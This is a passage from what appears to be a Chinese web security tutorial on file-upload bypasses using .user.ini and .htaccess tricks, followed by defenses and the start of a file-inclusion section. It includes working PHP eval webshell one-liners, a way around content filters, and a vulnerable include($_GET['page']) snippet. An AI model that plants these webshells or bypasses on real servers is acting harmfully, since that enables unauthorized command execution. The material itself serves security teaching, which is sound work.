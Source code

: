 - nginx服务器
- 服务器脚本语言为php>5.3.0
- 能够上传.use.ini文件
- 服务器使用CGI/FastCGI模式
- 上传目录下有可执行的php文件

漏洞利用

1. 上传.user.ini，内容为`GIF89a auto_append_file=a.k1`，利用GIF89a绕过文件内容检测
2. 上传a.k1文件，内容为`GIF89a <script language="php">eval($_POST[a]);</script>`，利用<script>标签来绕过<?内容过滤
3. 上传index.php文件，内容为`<?php 
   include_once 'a.k1';
   ?>`，包含文件a.k1，然后访问index.php并post数据`a=system("notepad");`执行命令

### .htaccess绕过

漏洞形成条件

- apache服务器
- 能够上传.htaccess文件，一般为黑名单限制。
- AllowOverride All，默认配置为关闭None。
- LoadModule rewrite_module modules/mod_rewrite.so #模块为开启状态
- 上传目录具有可执行权限。

上传.htaccess文件内容为`AddType application/x-httpd-php .png`，将png后缀文件解析为php，在1.png末尾写入`<?php @eval($_POST[123]); ?>`，上传并访问1.png，post数据`123=system("notepad");`执行命令

## 文件上传防御

- 使用白名单策略检查文件扩展名
- 上传文件的目录禁止http请求直接访问。如果需要访问，要上传到和web服务器不同的域名下，并设置该目录不解析脚本
- 上传文件的文件名和目录名由系统根据时间生成，禁止用户自定义

# 文件包含漏洞

## 代码&利用方法

```php
<?php
	$filename=$_GET['page'];
	include($filename);#如果包含出错，只会警告，不影响后续语句执行
//文件包含函数
    #require()#如果包含出错，提出致命错误，不执行后门语句
    #require_once()
    #include_once()
//文件操作函数
    #file()
    #fopen()
    #readfile()
//文件内容操作函数
    #file_get_contents()
    #file_put_contents()
?>
```
